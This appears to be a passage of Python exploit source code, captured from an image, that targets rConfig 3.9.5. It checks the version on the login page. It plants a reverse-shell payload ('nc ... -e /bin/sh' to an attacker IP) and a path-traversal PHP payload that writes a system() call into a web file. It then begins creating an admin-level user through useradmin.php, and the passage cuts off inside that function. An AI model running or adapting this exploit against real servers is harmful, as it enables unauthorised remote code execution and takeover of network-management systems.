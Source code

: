     urllib3.disable_warnings()

     

    url="https://x.x.x.x/" #change this to fit your URL (adding the last slash)

    payload="nc y.y.y.y 9001 -e /bin/sh"  #change this to whatever payload you want

    payload_rce= "fileName=../www/test.php&code=<%3fphp+echo+system('ls')%3b%3f>&id=3" #if you want to use Method 2 for RCE, use a PHP, urlencoded payload as the value of the code parameter

     

    print("Connecting to: {}".format(url))

    print("Connect back is set to: {}, please launch 'nc -lv 9001'".format(payload))

     

    x = requests.get(url+"login.php", verify=False)

    version = re.search("<p>(.*)<span>", x.text)

    version = version.group(1)

     

    if version == "rConfig Version 3.9.5":

       print("Version 3.9.5 confirmed")

    else:

       print("Version is "+version+ " it may not be vulnerable")

     

    payload_final=";"+payload

    referer=url+"useradmin.php"

    origin=url

    proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"} #in case you need to debug the exploit with Burp, add ', proxies=proxies' to any request

     

    def createuser():

     

        multipart_data = MultipartEncoder(

           fields={

                   'username': 'test',

                   'password': 'Testing1@', #password should have a capital letter, lowercase, number and a symbol

                   'passconf': 'Testing1@',

                   'email': 'test@test.com',

                   'ulevelid': '9',

                   'add': 'add',

                   'editid': ''
